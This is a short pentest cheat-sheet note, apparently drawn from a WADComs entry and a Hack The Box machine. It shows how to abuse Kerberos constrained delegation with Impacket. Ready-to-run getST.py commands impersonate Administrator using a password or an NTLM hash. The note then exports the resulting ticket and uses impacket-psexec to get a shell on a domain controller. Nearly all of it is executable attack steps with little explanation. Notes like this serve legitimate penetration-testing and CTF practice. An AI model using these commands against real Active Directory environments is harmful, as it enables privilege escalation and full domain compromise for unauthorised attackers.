

https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/
If the account has constrained delegation privileges, you can use the
-impersonate
flag to request a ticket on behalf of another user.

python3 getST.py -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john:password123
with hash
python3 getST.py -spn www/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes <ntlm hash>:<ntlm hash>
>> ticket saving to
Administrator.ccache
export KRB5CCNAME=Administrator.ccache
login with ticket
impacket-psexec -k -no-pass intelligence.htb/Administrator@dc.intelligence.htb